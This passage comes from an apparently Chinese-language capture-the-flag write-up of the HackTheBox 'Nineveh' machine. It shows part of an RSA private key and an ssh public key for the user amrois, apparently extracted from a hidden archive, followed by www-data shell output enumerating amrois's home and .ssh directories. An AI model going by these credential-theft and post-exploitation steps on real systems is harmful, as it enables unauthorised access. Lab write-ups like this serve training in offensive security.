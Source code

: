```bash
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----
secret/nineveh.pub
0000644
0000041
0000041
00000000620
13126060277
014541
ustar  
www-data
www-data
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSkh5OvYoY//CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqlsmS6Sc/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX/CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC9ycjeirC/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo4tNH/P6iPixBNf7/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R amrois@nineveh.htb
```

对应验证 amrois 家目录 .ssh

```bash
www-data@nineveh:/home/amrois$ ls -al
ls -al
total 32
drwxr-xr-x 4 amrois amrois 4096 Dec 17  2020 .
drwxr-xr-x 3 root   root   4096 Jul  2  2017 ..
lrwxrwxrwx 1 root   root      9 Dec 17  2020 .bash_history -> /dev/null
-rw-r--r-- 1 amrois amrois  220 Jul  2  2017 .bash_logout
-rw-r--r-- 1 amrois amrois 3765 Jul  2  2017 .bashrc
drwx------ 2 amrois amrois 4096 Jul  3  2017 .cache
-rw-r--r-- 1 amrois amrois  655 Jul  2  2017 .profile
drwxr-xr-x 2 amrois amrois 4096 Jul  2  2017 .ssh
-rw------- 1 amrois amrois   33 Sep  6 19:31 user.txt
www-data@nineveh:/home/amrois$ cd .ssh
cd .ssh
www-data@nineveh:/home/amrois/.ssh$ ls -al
ls -al
total 12
drwxr-xr-x 2 amrois amrois 4096 Jul  2  2017 .
drwxr-xr-x 4 amrois amrois 4096 Dec 17  2020 ..
-rw------- 1 amrois amrois  400 Jul  2  2017 authorized_keys
```
